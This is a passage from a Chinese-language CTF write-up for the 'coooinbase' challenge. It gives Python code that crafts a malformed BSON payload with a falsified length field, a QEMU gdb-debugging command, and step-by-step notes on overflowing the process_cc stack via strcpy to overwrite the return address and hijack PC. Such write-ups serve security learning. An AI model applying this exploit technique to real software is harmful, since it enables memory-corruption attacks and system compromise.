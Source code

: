 ```
obj = {
    'CVC': 111,
    'MON': 11,
    'YR': 2021
}
bs = bson.dumps(obj)

bs = bs[:-1]
bs += b'\x02'
bs += b'CC'
bs += b'\x00'
bs += p32(0x17)
bs += b'C'*22 + b'\x00'
bs += b'\x00'

#print(hexdump(bs))
print(b64e(bs)+' ')
```

Debug
-----

编辑`x.sh`，增加`-s -S`参数，开启调试接口并在内核启动时挂起

```
qemu-system-aarch64 -s -S -machine virt -cpu cortex-a57 -smp 1 -m 64M -nographic -serial mon:stdio -monitor none -kernel coooinbase.bin -drive if=pflash,format=raw,file=rootfs.img,unit=1,readonly
```

现将`AAAAA...`串的 base64 存到 payload 文件，执行`./x.sh < payload`喂入数据

[![](https://p5.ssl.qhimg.com/t014bfa1bf36ab00857.png)](https://p5.ssl.qhimg.com/t014bfa1bf36ab00857.png)

userland 程序装载地址为`0x0`

[![](https://p4.ssl.qhimg.com/t01c2a6c5eb3f20eb05.png)](https://p4.ssl.qhimg.com/t01c2a6c5eb3f20eb05.png)

喂入构造好的 bson base64 数据`python solve.py | x.sh`，断在 strcpy 处。现在程序将`AAAAAAA...`串拷贝到 process_cc 栈上

[![](https://p2.ssl.qhimg.com/t012dfa1c0a6923ce6a.png)](https://p2.ssl.qhimg.com/t012dfa1c0a6923ce6a.png)

但此处的栈会根据 bson `CC`结构里的 4 个 byte 长度去动态扩展栈空间，因而没法溢出到返回地址`0xf958`。但我们可以通过修改这 4 个 byte 长度结构去绕过，给出一个较小的长度与一个较长的字符串，便能覆盖`process_cc`的返回地址

[![](https://p1.ssl.qhimg.com/t010c29c5e256e4b2f0.png)](https://p1.ssl.qhimg.com/t010c29c5e256e4b2f0.png)

返回地址已被覆盖为`AAAAAAAA`

[![](https://p3.ssl.qhimg.com/t0150203d2d97c7d2a7.png)](https://p3.ssl.qhimg.com/t0150203d2d97c7d2a7.png)

成功劫持了 PC
